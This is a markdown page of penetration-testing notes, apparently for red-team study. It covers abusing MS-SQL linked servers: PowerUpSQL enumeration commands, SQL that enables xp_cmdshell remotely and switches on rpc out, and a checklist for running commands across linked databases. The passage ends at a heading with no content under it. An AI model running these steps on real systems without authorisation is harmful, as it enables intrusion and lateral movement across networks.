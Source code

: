 ### <span style="color:#F1C232">2. Check Access</span>

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

### <span style="color:#F1C232">3. Check Privileges / Gather Infromation</span>

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

### <span style="color:#F1C232">4. Check impersonation rights (extra)</span>

```powershell
Invoke-SQLAudit -Verbose -Instance <instanceName>
```

# <span style="color:lightblue">MS-SQL Abuse - Part 2</span>

-   A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources.
-   In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures.
-   Database links work even across forest trusts.

### <span style="color:#F1C232">Execute commands on target server</span>
-   On the target server, either xp_cmdshell should be already enabled; or
-   If **rpcout** is enabled (disabled by default), `xp_cmdshell` can be enabled using: 

```console
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```
-   If **rpcout** is disabled but we are **sa**, it can be enabled with

```console
EXEC sp_serveroption 'LinkedServer', 'rpc out', 'true';
```

## <span style="color:lightgreen">Methodology/Steps</span>
- [x] 1. Check the SQL Server link
- [x] 2. Keep note if you have link to any other database in **DatabaseLinkName**
- [x] 3. If SysAdmin:0 means that we will not be allowed to enable **xp_cmdshell**
- [x] 4. Keep on enumerating and check all the linked databases you have access to
- [x] 5. Now we can try to execute commands through out all the linked databases found

## <span style="color:lightgreen">PowerUpSQL - Abusing the privileges</span>
